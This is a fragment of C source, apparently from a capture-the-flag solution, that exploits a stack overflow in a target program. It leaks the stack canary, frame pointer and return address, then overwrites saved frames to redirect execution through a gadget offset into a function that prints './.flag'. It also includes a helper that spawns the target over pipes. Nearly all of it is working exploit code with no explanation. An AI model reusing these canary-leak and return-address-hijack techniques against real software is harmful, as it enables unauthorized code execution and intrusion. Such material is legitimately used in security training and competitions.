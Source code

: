 ```c
  stk.f0.fp = DUMMY;
  stk.f0.ra = stk_f0->ra + (OFF_POPRDI - OFF_WORKRA);
  stk.f1.a0 = arg;
  stk.f1.ra = stk_f0->ra + off;
  stk.pushed = pushed;

  if (overrun_then_overwrite(ctx, (char *)&stk, sizeof(stk)) < 0)
    return -1;

  stk_f0->fp += 0x18;
  return program_quit(ctx);
}

static int exploit(FILE *rfile, FILE *wfile)
{
  struct context ctx = {
    .rfile = rfile,
    .wfile = wfile,
    .buf = NULL,
    .bufsz = 0,
    .ncase = 0,
  };
  struct stack_frame0 stk_f0;

  if (expect_and_read_welcome(&ctx) < 0)
    return -1;
  if (expect_and_read_case(&ctx) < 0)
    return -1;

  if (stack_extract(
        &ctx,
        __builtin_offsetof(struct stack, f0),
        sizeof(struct stack_frame0),
        (char *)&stk_f0) < 0)
    return -1;

  fprintf(stderr, "canary: %016lx\n", stk_f0.canary);
  fprintf(stderr, "fp: %016lx\n", stk_f0.fp);
  fprintf(stderr, "ra: %016lx\n", stk_f0.ra);

  if (function_call(&ctx, &stk_f0,
        OFF_PRTFLAG - OFF_WORKRA, stk_f0.fp - 0x00,
        0x0067616c662e2f2e /* "./.flag" */) < 0)
    return -1;

  return 0;
}

static pid_t spawn(const char *program, FILE **rfile, FILE **wfile)
{
  int rpipes[2]; // (parent rfile, child stdout)
  int wpipes[2]; // (child stdin, parent wfile)
  pid_t pid;

  if (pipe(rpipes) < 0) {
    perror("pipe");
    goto rpipe_err;
  }

  if (pipe(wpipes) < 0) {
    perror("pipe");
    goto wpipe_err;
  }
```